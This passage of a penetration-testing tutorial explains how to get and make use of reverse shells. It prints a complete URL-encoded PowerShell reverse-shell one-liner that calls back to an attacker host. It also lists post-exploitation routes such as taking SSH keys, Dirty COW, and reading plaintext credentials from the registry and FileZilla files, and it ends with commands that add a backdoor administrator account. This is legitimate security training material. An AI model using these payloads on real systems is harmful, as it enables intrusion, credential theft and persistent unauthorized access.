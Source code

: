 There are a variety of webshells available on Kali Linux by default at `/usr/share/webshells`, but we should note that most generic, language-specific reverse shells are written for Unix-based targets like Linux webservers.

When the target is Windows, it is often easiest to obtain RCE using a webshell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former, obtaining RCE is often done using a URL encoded Powershell reverse shell. This would be copied into the URL as the `cmd` argument: 

```powershell
> powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

This is the same as the Powershell reverse shell discussed [earlier](#for-windows-powershell), but URL encoded to be used safely as a `GET` parameter. As before, the IP address (`<IP>`) and port number (`<PORT>`) need to be changed. 

## Next steps

We have seen many different ways to generate, send and receive shells. However, shells tend to be unstable and non-interactive. Even stablised shells are not ideal. What would our next steps be? 

On Linux, ideally we would be looking to gain access to a user account. SSH keys stored at `/home/<USER>/.ssh` are often a good way to do this. Some exploits will even allow us to *add our own account*. In particular, something like [Dirty C0w](https://dirtycow.ninja/) or a **writable** `/etc/shadow` or `/etc/passwd` would quickly give us SSH access to the machine, assuming that SSH is open. 

On Windows, the options are more limited. It is sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the **registry stored in plaintext**. Some versions of the *FileZilla* FTP server also leave credentials (in MD5 hashes or plaintext, depending on the version) in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml` or `C:\xampp\FileZilla Server\FileZilla Server.xml`.

Ideally on Windows, we would obtain a shell as the SYSTEM user, or an administrator account running high privileges. Then, we can simply add our own account (into the administrators group) to the machine, and then log in via methods such as RDP, telnet, winexe, etc. The powershell syntax to add a user is: 

```powershell
> net user <username> <password> /add
> net localgroup administrators <username> /add
```

The key takeaway is this: 
> Reverse and bind shells are an essential technique for gaining remote code execution on a machine. However, they will never be as fully featured as a native shell. Ideally, we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitable of the target.

